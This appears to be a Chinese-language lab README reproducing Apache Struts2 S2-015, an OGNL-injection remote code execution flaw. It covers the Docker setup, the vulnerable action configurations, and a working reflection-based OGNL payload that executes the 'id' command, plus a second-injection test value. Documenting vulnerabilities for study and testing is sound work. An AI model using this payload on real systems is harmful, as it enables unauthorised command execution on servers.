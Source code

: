 # S2-015 远程代码执行漏洞

影响版本: 2.0.0 - 2.3.14.2

漏洞详情:

 - http://struts.apache.org/docs/s2-015.html

## 测试环境搭建

```
docker-compose build
docker-compose up -d
```

## 原理与测试

漏洞产生于配置了 Action 通配符 *，并将其作为动态值时，解析时会将其内容执行 OGNL 表达式，例如：

```xml
<package name="S2-015" extends="struts-default">
    <action name="*" class="com.demo.action.PageAction">
        <result>/{1}.jsp</result>
    </action>
</package>
```

上述配置能让我们访问 name.action 时使用 name.jsp 来渲染页面，但是在提取 name 并解析时，对其执行了 OGNL 表达式解析，所以导致命令执行。在实践复现的时候发现，由于 name 值的位置比较特殊，一些特殊的字符如 / " \ 都无法使用（转义也不行），所以在利用该点进行远程命令执行时一些带有路径的命令可能无法执行成功。

还有需要说明的就是在 Struts 2.3.14.1 - Struts 2.3.14.2 的更新内容中，删除了 SecurityMemberAccess 类中的  setAllowStaticMethodAccess 方法，因此在 2.3.14.2 版本以后都不能直接通过 `#_memberAccess['allowStaticMethodAccess']=true` 来修改其值达到重获静态方法调用的能力。

这里为了到达执行命令的目的可以用 kxlzx 提到的调用动态方法 (new java.lang.ProcessBuilder('calc')).start() 来解决，另外还可以借助 Java 反射机制去间接修改：

```
#context['xwork.MethodAccessor.denyMethodExecution']=false,#m=#_memberAccess.getClass().getDeclaredField('allowStaticMethodAccess'),#m.setAccessible(true),#m.set(#_memberAccess,true)
```

可以构造 Payload 如下：

```
${#context['xwork.MethodAccessor.denyMethodExecution']=false,#m=#_memberAccess.getClass().getDeclaredField('allowStaticMethodAccess'),#m.setAccessible(true),#m.set(#_memberAccess,true),#q=@org.apache.commons.io.IOUtils@toString(@java.lang.Runtime@getRuntime().exec('id').getInputStream()),#q}
```

直接回显：

![](01.png)

除了上面所说到的这种情况以外，S2-015 还涉及一种二次引用执行的情况：

```xml
<action name="param" class="com.demo.action.ParamAction">
    <result name="success" type="httpheader">
        <param name="error">305</param>
        <param name="headers.fxxk">${message}</param>
    </result>
</action>
```

这里配置了 `<param name="errorMessage">${message}</param>`，其中 message 为 ParamAction 中的一个私有变量，这样配置会导致触发该 Result 时，Struts2 会从请求参数中获取 message 的值，并在解析过程中，触发了 OGNL 表达式执行，因此只用提交 %{1111*2} 作为其变量值提交就会得到执行。这里需要注意的是这里的二次解析是因为在 struts.xml 中使用 ${param} 引用了 Action 中的变量所导致的，并不针对于 type="httpheader" 这种返回方式。

![](02.png)
